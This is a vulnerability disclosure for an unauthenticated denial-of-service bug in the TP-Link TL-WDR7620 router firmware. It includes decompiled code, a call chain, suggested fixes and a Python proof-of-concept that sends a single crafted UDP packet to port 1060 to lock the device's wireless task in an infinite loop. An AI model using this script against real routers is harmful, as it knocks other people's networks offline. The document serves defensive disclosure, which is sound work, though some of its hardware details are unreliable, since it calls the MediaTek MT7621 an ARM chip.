






# TP-Link TL-WDR7620 iwpriv Command Handler Infinite Loop Denial of Service

## Overview

| Item | Detail |
|------|--------|
| Vendor | TP-Link Technologies Co. Ltd. |
| Product | TL-WDR7620 AC1900 Dual-Band Router |
| Firmware | TL-WDR7620 V1.0升级软件20181018_1.0.99 |
| Download | https://service.tp-link.com.cn/detail_download_8635.html |
| Binary | `10400_wdr7620` (ARM LE, VxWorks 5.5.1, base `0x40205000`) |
| Service | twlantask (UDP port 1060) |
| Vulnerability | Infinite retry loop in iwpriv command handler (CWE-835) |
| Type | Denial of Service (DoS) |
| Severity | Medium — single UDP packet causes 100% CPU, ~96,000 I/O operations |
| Auth Required | None |

## Product Attribution

The firmware binary `10400_wdr7620` was extracted from the official TP-Link download for TL-WDR7620 V1.0. The firmware runs VxWorks 5.5.1 on a MediaTek MT7621 SoC (ARM little-endian).


## Vulnerability Details

### 1. Trigger Location

The vulnerable function is the iwpriv command handler chain, invoked by the `tWlanTask` UDP service task after receiving data on port 1060. The vulnerability exists in `iwprivMain` and its callees, which lack retry limits for I/O operations.

**_tWlanTask** (0x403096F4) — UDP service task entry, dispatches to `MmtAtePrase` on iwpriv/wioctl prefix match:

```c
void __fastcall __noreturn tWlanTask(_DWORD *a1) {
  while (1) {
    for (int i = 0; i != 10; ++i) {
      // select() with 100ms timeout ...
      v4 = recvfrom(a1[0], a1 + 324, 3072, 0, &addr, &addrlen);
      v7 = v4;
      if (v4 <= 0
        || strncmp(a1 + 324, "iwpriv", 6) != 0
        && strncmp(a1 + 324, "wioctl", 6) != 0) {
        if (v7 > 0x17)
          v4 = eventIndicate(a1, a1 + 324, v7 - 24, &addr);
      } else {
        v4 = MmtAtePrase(1060, a1 + 324, a1[0], &addr);  // ← Dispatch
      }
    }
    chkWlanReload();
  }
}
```

The `strncmp(buf, "iwpriv", 6) == 0` check at `0x40309800` routes the 329-byte payload into `MmtAtePrase`, which splits by `\n` and dispatches each segment to the command handler `sub_4031C684`. This handler matches the "iwpriv" command word against a 7-entry dispatch table and calls `cmdIwprivParser` → `iwprivMain`, where the infinite retry loop occurs.





### 2. Root Cause Analysis

**cmdIwprivParser** (0x4030ED3C) — iwpriv command entry, calls iw_cmdSplit and iwprivMain:

```c
int __fastcall cmdIwprivParser(int a1) {
  MEMORY[0x405E6AE8] = "iwpriv";
  v1 = iw_cmdSplit(a1, a1, "\t \r\n", ..., 256);
  if (v1 >= 0)
    return iwprivMain(v1 + 1, ...);  // ← Enters iwpriv command processing
  fprintf(stderr, "Invalid input string!\n");
  return -1;
}
```

**The Bug:** `iwprivMain` and its callees perform file read (iosRead), response write (iosWrite), and interface lookup (endFindByName) operations without any retry limit or timeout. When these operations fail — either due to emulator hook error injection or real-hardware I/O errors — the handler retries indefinitely:

```
4 × iosWrite (0x40297290)    → write response, returns error
1 × endFindByName("ra0")     → lookup interface, returns fixed address
4 × iosWrite                 → retry write
1 × endFindByName("ra0")     → retry lookup
... infinite loop (~4,070 rounds)
```

**Pre-loop I/O burst:** Before entering the steady-state loop, the handler performs 76,009 `iosRead` calls in two bursts (at second 1 and second 7), interleaved with repeated `ioCreateOrOpen` calls on `/config/cloud_config.json` — the handler retries reading configuration data that doesn't exist or is malformed.

The firmware code lacks any mechanism to break out of this retry cycle — no retry counter, no timeout, no error escalation. While the outer `_tWlanTask` loop has a `select()` with 100ms timeout, the inner iwpriv processing chain has no such protection.

**Call Chain:**

```
UDP port 1060
  └─ _tWlanTask()                              @ 0x403096F4
       ├─ select(sock, ...)                    @ 0x4030976C
       ├─ recvfrom(sock, buf, 3072, ...)       @ 0x403097C8
       ├─ strncmp(buf, "iwpriv", 6) == 0       @ 0x40309800
       └─ MmtAtePrase(1060, buf, ...)          @ 0x40309814
            ├─ spliter(pos, "\n", token)       @ 0x4031C8F0
            ├─ MmtAte(port, token, ..., 0)     @ 0x4031C920
            │    └─ sub_4031C684                ← command dispatcher
            │         ├─ spliter(token, " ")   @ 0x4031C730
            │         ├─ matchOption(w, tbl)   @ 0x4031C77C
            │         └─ cmdIwprivParser(rest) @ 0x4031C7A8
            │              ├─ iw_cmdSplit()
            │              └─ iwprivMain()      ← INFINITE RETRY LOOP
            │                   ├─ ioCreateOrOpen("/config/cloud_config.json")
            │                   ├─ iosRead(fd)       → error → retry
            │                   ├─ endFindByName("ra0") → error → retry
            │                   └─ iosWrite(sock)    → error → retry
            └─ spliter returns non-NULL → loop continues
```

**Dispatch Table** (0x405AA62C, 7 entries × 12 bytes):

| Entry | Name String | Handler |
|-------|------------|---------|
| 0 | "ra0" @ 0x4051BB8C | j_cmdIwprivParser @ 0x4030EDB0 |
| 1 | "ra1" @ 0x4051EF6C | j_cmdIwprivParser @ 0x4030EDB0 |
| 2 | "apcli0" @ 0x4051EF70 | j_cmdIwprivParser @ 0x4030EDB0 |
| 3 | "rai0" @ 0x4051EF78 | iwpriv_2G @ 0x4030EDB4 |
| 4 | "rai1" @ 0x4051EF80 | iwpriv_2G @ 0x4030EDB4 |
| 5 | "apclii0" @ 0x4051EF88 | iwpriv_2G @ 0x4030EDB4 |
| 6 | "rax0" @ 0x4051EF90 | iwpriv_2G @ 0x4030EDB4 |

All entries call `cmdIwprivParser` (0x4030ED3C), which further calls `iwprivMain` → `iw_get_priv_info` → `wextIoctl` → `devGetByName`.





### 3. Impact

A single UDP datagram sent to port 1060 triggers an **infinite retry loop** in the iwpriv command handler, consuming 100% CPU indefinitely. The `tWlanTask` task is permanently stuck in a read config → lookup interface → write response retry cycle. A device reboot or watchdog reset is required for recovery.

### 4. Fix

- In `iwprivMain` and its callees, add a maximum retry count for file read/write and interface lookup operations; return error on reaching the limit
- In the iwpriv handler chain, add operation timeouts using `select()` or `taskDelay()` to bound I/O duration
- In `cmdIwprivParser`, validate subcommand parameters before passing to `iwprivMain`, rejecting inputs with non-printable characters

## Proof of Concept

```python
#!/usr/bin/env python3
"""TP-Link WDR7620 iwpriv Handler DoS PoC — UDP port 1060"""
import socket
import sys

TARGET_IP = sys.argv[1] if len(sys.argv) > 1 else "192.168.1.1"
TARGET_PORT = 1060

# Payload: 329 bytes fuzzed input with 5x \n separators (5 segments)
# Starts with "iwpriv" + spaces to pass the prefix check and enter iwpriv handler
# Garbage parameters cause the handler to retry I/O operations infinitely
with open("TL-WDR7620/payload.bin", "rb") as f:
    payload = f.read()

print(f"[*] Sending {len(payload)} byte payload to {TARGET_IP}:{TARGET_PORT}")
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.sendto(payload, (TARGET_IP, TARGET_PORT))
sock.close()
print("[+] Payload sent. Expected: infinite I/O retry loop, CPU 100%")
```

## Vulnerability Trigger Process


### Verification Results

After payload injection, the emulator captures **repeating I/O retry patterns** confirming the infinite loop:

```
iosWrite (0x40297290) × 4    → write response, hook returns error
endFindByName("ra0")          → interface lookup, hook returns fixed address
iosWrite (0x40297290) × 4    → retry write
endFindByName("ra0")          → retry lookup
... ~4,070 rounds, ~96,000 total I/O operations
```

**Key metrics** (from `output.txt`):
- `recvfrom: wrote 329 bytes of fuzz data` — payload injected **exactly once**
- `Breakpoint(0x40297290)` = RedirectIosWrite: **16,163 hits** — response write retries
- `Breakpoint(0x4029737C)` = RedirectIosRead: **76,009 hits** — config file read retries
- `Breakpoint(endFindByName)` = **4,070 hits** — interface lookup retries
- Total output: 313,811 lines confirming the steady-state retry pattern





## Discoverer

m202472188@hust.edu.cn — xiaobor123
